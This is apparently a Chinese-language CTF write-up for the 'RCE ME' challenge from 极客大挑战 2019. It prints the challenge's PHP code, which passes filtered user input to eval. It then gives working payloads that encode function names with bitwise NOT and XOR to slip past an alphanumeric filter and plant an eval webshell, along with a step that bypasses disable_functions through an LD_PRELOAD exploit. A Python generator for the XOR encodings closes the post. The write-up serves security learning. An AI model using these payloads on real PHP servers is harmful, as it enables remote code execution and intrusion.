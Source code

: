 ```yaml
---
title: 极客大挑战 2019 RCE ME
date: 2021-03-30 10:41:58
tags: wp

---
```

##  好难
代码审计       


	```php
	<?php
	error_reporting(0);
	if(isset($_GET['code'])){
	            $code=$_GET['code'];
	                    if(strlen($code)>40){
	                                        die("This is too Long.");
	                                                }
	                    if(preg_match("/[A-Za-z0-9]+/",$code)){
	                                        die("NO.");
	                                                }
	                    @eval($code);
	}
	else{
	            highlight_file(__FILE__);
	}
	
	// ?>
	```




匹配字母和数字，长度限制        

可以用url编码取反       
看一下`phpinfo()`    
`?code=(~%8F%97%8F%96%91%99%90)();`       
`diable_function`      
![](https://ftp.bmp.ovh/imgs/2021/03/af56694c62004458.png) 
然后可以构造一个shell连蚁剑      
![](https://ftp.bmp.ovh/imgs/2021/03/867af17595321212.png)   
`?code=(~%9E%8C%8C%9A%8D%8B)(~%9A%89%9E%93%D7%DB%A0%AF%B0%AC%AB%A4%9E%9E%A2%D6);`       
![](https://ftp.bmp.ovh/imgs/2021/03/3c8a2ebff12bd606.png)  
根目录下发现flag，但打开什么也没有，还有个readflag，应该要通过这个得到flag          


绕过`disable_function`     
[EXP](https://codechina.csdn.net/mirrors/yangyangwithgnu/bypass_disablefunc_via_LD_PRELOAD?utm_source=csdn_github_accelerator)          
将两个脚本上传到`/var/tmp`![](https://ftp.bmp.ovh/imgs/2021/03/867f27890d683cc6.png)         
再构造payload       
这里构造用的异或，我试着还用取反，但没成功？？

![](https://ftp.bmp.ovh/imgs/2021/03/63bcafadb06aa2b4.png)
`?code=${%fe%fe%fe%fe^%a1%b9%bb%aa}[_](${%fe%fe%fe%fe^%a1%b9%bb%aa}[__]);&_=assert&__=include(%27/var/tmp/bypass_disablefunc.php%27)&cmd=/readflag&outpath=/tmp/tmpfile&sopath=/var/tmp/bypass_disablefunc_x64.so`  
![](https://ftp.bmp.ovh/imgs/2021/03/1fd484dc9735a262.png) 

还有就蚁剑的应用市场有一个绕过disable_function的插件，但我电脑上的蚁剑打不开应用市场？？？？      



## 知识点    
<strong>`assert(eval($_POST[aa]))`</strong>            
<strong>`${_GET}[_](${_GET}{__})`</strong>    


[大佬异或的脚本](https://blog.csdn.net/mochu7777777/article/details/104631142)       



	```python
	payload = "_GET"
	strlist = [0, 1, 2, 3, 4, 5, 6, 7, 8, 9, 10, 11, 12, 13, 14, 15, 16, 17, 18, 19, 20, 21, 22, 23, 24, 25, 26, 27, 28, 29, 30, 31, 32, 33, 35, 36, 37, 38, 40, 41, 42, 43, 44, 45, 46, 47, 58, 59, 60, 61, 62, 63, 64, 91, 93, 94, 95, 96, 123, 124, 125, 126, 127]
	#strlist是ascii表中所有非字母数字的字符十进制
	str1,str2 = '',''
	
	for char in payload:
	    for i in strlist:
	        for j in strlist:
	            if(i ^ j == ord(char)):
	                i = '%{:0>2}'.format(hex(i)[2:])
	                j = '%{:0>2}'.format(hex(j)[2:])
	                #print("('{0}'^'{1}')".format(i,j),end=".")
	                str1=str1+i
	                str2=str2+j
	                break
	        else:
	            continue
	        break
	print((str1)+'^'+(str2))
	```




